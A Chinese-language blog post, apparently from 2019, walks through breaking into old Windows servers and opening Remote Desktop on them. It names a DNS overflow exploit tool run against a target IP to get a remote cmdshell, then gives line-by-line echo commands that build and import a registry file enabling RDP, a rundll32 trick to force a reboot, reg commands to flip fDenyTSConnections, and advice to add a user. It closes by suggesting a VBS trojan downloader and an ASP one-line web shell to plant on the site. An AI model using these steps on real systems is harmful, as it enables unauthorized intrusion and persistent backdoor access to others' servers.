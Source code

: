 ```yaml
---
title: Windows下的3389端口渗透
date: 2019-08-11 18:25:12
categories: 玩
tags: 网络安全
---
```

## 一、Win7、Win2003、XP系统

在CMD命令行开启3389端口：
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f

在CMD命令行关闭3389端口（将00000000改成11111111即可）：

REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 11111111 /f

## 二、2000系统

简要说一下如何进行DNS溢出攻击。我用的溢出利用程序是dns.exe，在CMD下运行它可以看到它的使用参数等信息。执行"dns -s IP"命令检测目标IP是否存在DNS溢出漏洞，若存在则进行溢出攻击，执行"dns -t 2000all IP 1207"后提示要我们检测返回的1100端口的shell。"telnet IP 1100"成功得到返回的cmdshell。注意目录为c:/WINNT/system32，接着我们需要做的是使用"echo"命令写入一个3389.reg注册表文件。将如下代码一行一行地复制到cmdshell窗口后按回 车执行：

echo Windows Registry Editor Version 5.00 >3389.reg
echo. >>3389.reg 
echo [HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Windows/CurrentVersion/netcache] >>3389.reg
echo "Enabled"="0" >>3389.reg
echo [HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Windows NT/CurrentVersion/Winlogon] >>3389.reg
echo "ShutdownWithoutLogon"="0" >>3389.reg
echo [HKEY_LOCAL_MACHINE/SOFTWARE/Policies/Microsoft/Windows/Installer] >>3389.reg
echo "EnableAdminTSRemote"=dword:00000001 >>3389.reg 
echo [HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Terminal Server] >>3389.reg
echo "TSEnabled"=dword:00000001 >>3389.reg
echo [HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Services/TermDD] >>3389.reg
echo "Start"=dword:00000002 >>3389.reg 
echo [HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Services/TermService] >>3389.reg
echo "Start"=dword:00000002 >>3389.reg
echo [HKEY_USERS/.DEFAULT/Keyboard Layout/Toggle] >>3389.reg 
echo "Hotkey"="1" >>3389.reg
echo [HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Terminal Server/Wds/rdpwd/Tds/tcp] >>3389.reg 
echo "PortNumber"=dword:00000D3D >>3389.reg
echo [HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Terminal Server/WinStations/RDP-Tcp] >>3389.reg
echo "PortNumber"=dword:00000D3D >>3389.reg

简单说明一下，">"符号是覆盖写入文件，如无此文件则创建，有则覆盖原来的内容写入。">>"是追加写入，即在原有文件内容的基础上在 后面写入内容。这里是写入内容到3389.reg文件中！需要注意的是第二行，那个作用是写入一行空格，因为.reg文件的格式 必须如此！成功写入完毕后接着执行导入操作，执行"regedit /s 3389.reg"。这样注册表文件就已经顺利导入到注册表里去了。不过需要注意的是在cmdshell下不要输错任何一个字符，否则将无法执行，建议先 自己打好在记事本上，确保无误之后再复制到cmdshell窗口执行。然后可以用下面这个方法重启目标主机。在cmdshell下执行如下代码：

@ECHO OFF & cd/d %temp% & echo [version] > {out}.inf 
(set inf=InstallHinfSection DefaultInstall) 
echo signature=$chicago$ >> {out}.inf 
echo [defaultinstall] >> {out}.inf
rundll32 setupapi,%inf% 1 %temp%/{out}.inf r

按顺序将以上五行代码一行一行地复制到cmdshell上，复制完一行按一次回车执行，五行都执行完毕后，服务器就会重启的了。当然让服务器重启的方法比较多，比如结束掉系统关键进程、代码模拟按键等都是可以的，如无意外，等待服 务器完成重启之后再连接目标发现远程桌面服务已经成功开启了。至此Windows 2000操作系统溢出后返回的cmdshell下开启远程桌面服务就成功完成了。

## 三、2003系统

相对于2000的系 统来说，2003cmdshell下开启远程桌面服务就比较容易一些了，起码无需重启嘛！第一种方法也是用"echo"命令写入一个 3389.reg文件，再"regedit /s 3389.reg"导入注册表文件即可开启，比较简单，与上面介绍的2000的开启方法类似。将如下代码一行一行地复制到cmdshell窗口后按回车执 行：

echo Windows Registry Editor Version 5.00 >3389.reg 
echo. >>3389.reg 
echo [HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Terminal Server] >>3389.reg 
echo "fDenyTSConnections"=dword:00000000 >>3389.reg 
echo [HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Terminal Server/Wds/rdpwd/Tds/tcp] >>3389.reg 
echo "PortNumber"=dword:00000d3d >>3389.reg 
echo [HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Terminal Server/WinStations/RDP-Tcp] >>3389.reg 
echo "PortNumber"=dword:00000d3d >>3389.reg

完成以上操作后再执行"regedit /s 3389.reg"导入即可生效！不过这个方法相对来说比较麻烦。我们还可以用另外一种比较简单的方法来开启远程桌面服务的。在介绍另一个操作方法之前，我们先来熟悉下2003系统下远程桌面服务的一个最关键的注册表键值。
在"HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Terminal Server"

下数值名称为"fDenyTSConnections"的这一项，可以看到它的数值数据为1或0。数值为1的时候关闭远程桌面服务，数值为0的时候开启远程 桌面服务。换句话说，我们只要可以在cmdshell下更改这个关键的注册表键值数据就可以达到实现开启远程桌面服务的目的了！有幸的是，在2003下有 一个"reg"命令完全可以做到这一点。这里我们找一台操作系统为2003的服务器，通过和上面介绍的同样方法溢出后返回一个cmdshell。当我们尝试连接的时候会发现根本无法连接上去。下面详细说明一下用"reg"命令开启远程桌面服务。执行：

reg query "HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Terminal Server"

我们发现"fDenyTSConnections"键值数据为"0x1"。这个是十六进制数的1。上面提到，数据为1则没有开启远程桌面服务。我们要做的就是把"0x1"改成"0x0"！直接用"reg add"是不行的，必须把原来键值删掉再添加！在cmdshell下执行：

reg delete "HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Terminal Server" /v fDenyTSConnections

会询问是否"要删除注册表值 fDenyTSConnections 吗"，当然Yes了。再执行：

reg add "HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0

提示操作成功完成。这样就把"fDenyTSConnections"的值改为"0x0"了，我们可以执行：

reg query "HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Terminal Server"

发现已经成功更改了数据。现在再来连接服务器的3389看看，发现已经可以成功连接上了，创建个用户玩玩。至此2003下cmdshell开启远程桌面服务的方法也介绍完了。


溢出后也不一定要非要在cmdshell下开启远程桌面服务。
可以echo一个vbs文件，下载远程控制木马，然后在cmdshell里运行一下木马即可连接。
还有就是查询目标IP是否绑定有网站，如果有则找到网站目录，再用echo个一句话木马进去（例如：echo "<%execute request("cmd")%>"   > WEB路径/test.asp），用菜刀连接，然后上传大马，上传开3389的工具再开启也行。

